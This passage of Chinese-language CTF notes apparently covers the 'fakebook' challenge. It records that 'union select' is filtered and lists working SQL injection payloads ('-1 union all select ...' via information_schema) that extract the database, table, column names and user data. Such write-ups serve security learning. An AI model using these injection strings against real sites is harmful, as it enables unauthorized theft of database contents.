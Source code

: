 ![Untitled](PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20d90af503f8914fd0b2d3439c30147b00/Untitled%2015.png)

发现有过滤，union select

![Untitled](PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20d90af503f8914fd0b2d3439c30147b00/Untitled%2016.png)

回显里有一个unserialize()

- 爆库：no=-1 union all select 1,database(),3,4#
    - fakebook
- 爆表：no=-1 union all select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'#
    - users
- 爆字段：no=-1 union all select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
    - no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
- 爆内容：no=-1 union all select 1,data,3,4 from users#
